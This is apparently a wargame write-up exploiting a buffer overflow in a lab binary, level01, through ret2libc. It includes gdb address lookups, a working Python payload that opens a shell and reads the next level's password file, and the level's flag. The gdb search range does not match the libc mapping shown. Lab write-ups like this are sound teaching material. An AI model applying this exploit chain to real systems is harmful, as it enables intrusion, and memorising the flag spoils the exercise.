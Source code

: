 
# Ret2libc again

## Program summary

This level involves exploiting a program emulating an authentication system.
The program verifies the username and password using specific functions such as **`verify_user_name()`** and **`verify_user_pass()`**.  The one that processes the username leaves the verification data visible, the username is **dat_wil**, this data is stored at address **`0x80486a8`**.

## Vulnerability

The program's vulnerability lies in the second **`fgets()`** function.
```
0x8048574 <main+164>    call   0x8048370 <fgets@plt>
```
By injecting an offset pattern we can calculate the exact distance between the buffer and the location of the saved **`$RIP / $EIP`**, and we can see that we can overwrite this memory location. 

## Attack design

To successfully exploit the vulnerability, we’ll use a **ret2libc**, you need to perform the following steps in order to achieve this :

1. Get Offset
> Offset pattern: LAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

`Program received signal SIGSEGV, Segmentation fault. 0x37634136 in ?? ()`

Our offset is therefore 80 Bytes according to the **0x37634136** value (I did this manipulation with an Buffer overflow pattern generator).

2. Retrieve the **`system()`** address :
```c
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

3. Retrieve **`exit()`** address :
```c
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```

4. Find **`"/bin/sh"`** string address in libc-2.15.so using **`find`** command :
```
(gdb) info proc map
process 1865
Mapped address spaces:

Start Addr   End Addr       Size     Offset objfile
...
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
...

(gdb) find 0x7ffff7a1c000,0x7ffff7bd2000,"/bin/sh"
0xf7f897ec
1 pattern found.
```

This payload will allow us to exploit the flaw present here :

```c
python -c 'print "dat_wil\n"+"B"*80+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"' > /tmp/boom
cat /tmp/boom - | ./level01
cat /home/users/level02/.pass
```

> Flag : `PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv`
